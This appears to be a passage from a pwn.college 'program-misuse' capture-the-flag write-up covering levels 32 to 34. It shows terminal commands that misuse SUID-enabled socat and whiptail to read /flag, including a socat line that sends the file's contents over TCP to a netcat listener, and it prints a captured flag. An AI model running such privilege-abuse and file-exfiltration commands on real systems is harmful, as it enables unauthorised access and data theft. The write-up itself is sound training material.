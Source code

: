 ```
hacker@program-misuse~level32:/$ socat -u file:/flag tcp-connect:localhost:80
```

```
hacker@program-misuse~level32:/$ nc -nlvp 80
Listening on 0.0.0.0 80
Connection received on 127.0.0.1 38380
pwn.college{IGdVOWBVj8s11y7C02rRu8d7x-2.0FN3EDL4ITM0EzW}
```

&nbsp;

## level 33

> Requires some light programming to read the flag.!

```
hacker@program-misuse~level33:/$ /challenge/babysuid_level33 
Welcome to /challenge/babysuid_level33!

This challenge is part of a series of programs that
will require some light programming to read the flag..

I just set the SUID bit on /usr/bin/whiptail.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level33) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/whiptail!
```

The `whiptail` utility allows us to present a variety of questions or display messages using dialog boxes from a shell script.

```
hacker@program-misuse~level33:/$ whiptail --textbox --scrolltext "$LFILE" 10 50
```

![Pasted image 20240521173223](https://github.com/Kunull/Write-ups/assets/110326359/cde0c0e1-ab97-478a-97df-97377db0d0dd)

&nbsp;

## level 34

> Requires some light programming to read the flag.!

```
hacker@program-misuse~level34:/$ /challenge/babysuid_level34 
Welcome to /challenge/babysuid_level34!

This challenge is part of a series of programs that
will require some light programming to read the flag..

I just set the SUID bit on /usr/bin/awk.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level34) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/awk
```
